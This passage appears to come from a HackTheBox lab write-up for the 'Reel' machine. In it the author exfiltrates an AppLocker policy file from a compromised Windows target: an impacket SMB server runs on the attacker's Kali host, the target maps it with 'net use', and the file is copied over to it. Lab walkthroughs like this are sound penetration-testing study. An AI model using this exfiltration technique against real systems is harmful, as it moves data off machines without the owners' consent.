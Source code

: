 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-34.png)

Since we can't use nc.exe, let's try with smbserver.

We wil frist start a SMB server on our Kali machine:

`impacket-smbserver share .`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-22.png)

On the target machine, let's connect to the created SMB server:

`net use * \\10.10.14.36\share`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-35.png)

Through the command `copy output.xml Y:` on target machine, we can copy the Applocker output to our local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-36.png)

Let's take a look at it using Firefox:

`firefox output.xml`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-39.png)
